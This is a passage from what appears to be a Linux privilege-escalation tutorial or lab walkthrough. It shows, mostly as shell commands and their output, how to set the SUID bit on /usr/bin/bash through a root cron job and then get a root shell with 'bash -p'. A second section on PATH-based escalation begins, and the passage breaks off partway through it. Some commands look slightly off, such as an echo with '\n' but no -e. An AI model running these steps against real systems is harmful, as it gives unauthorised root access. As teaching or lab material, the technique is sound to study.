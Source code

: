 Wait one minute:

```shell
watch -n 1 ls -l /tmp

Ctrl+C
```

Read the `user_security_context.txt` file:

```shell
user@pwn:/tmp$ cat /tmp/user_security_context.txt 
uid=0(root) gid=0(root) groups=0(root)
root
```

Add a `setuid` bit to the bash script:

```shell
echo '#!/bin/bash\nchmod +s /usr/bin/bash' >> /tmp/elevate.sh 
```

Wait one minute until the SUID bit is set to the bash executable:

```shell
watch -n 1 ls -l /usr/bin/bash
```

Then we can bash shell the `setuid` bit as the `root` user by passing the `-p` flag:

```shell
❯ bash -p
```

We can confirm this by using `id`:

```sh
bash-5.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),1000(user)
```

# Privelege Escalation via PATH Environment Variable

Create a script in your home directory that adds an SUID bit to the bash executable:

```shell
#!/bin/bash

sudo chmod +s /usr/bin/bash
```

Add execution permissions to the script:

```sh
chmod +x elevate.sh
```

Create a custom cron job to run the `elevate.sh` script as the root user once every minute:

```shell
sudo vim /etc/cron.d/custom
```
